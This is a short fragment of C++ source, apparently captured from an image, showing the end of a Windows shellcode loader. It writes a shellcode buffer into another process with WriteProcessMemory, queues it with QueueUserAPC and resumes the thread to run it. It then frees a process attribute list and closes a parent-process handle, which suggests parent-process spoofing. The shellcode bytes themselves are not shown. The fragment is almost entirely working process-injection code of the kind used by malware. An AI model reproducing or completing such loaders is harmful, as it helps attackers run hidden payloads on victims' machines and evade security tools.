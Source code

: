 ```c++
		WriteProcessMemory(processInfo.hProcess, lpBaseAddress, (LPVOID)shellcode, sizeof(shellcode), NULL);
		QueueUserAPC((PAPCFUNC)lpBaseAddress, processInfo.hThread, NULL);
		ResumeThread(processInfo.hThread);
    // 清理资源
    DeleteProcThreadAttributeList(pAttributeList);
    CloseHandle(hParentProcess);

    return 0;
}

```

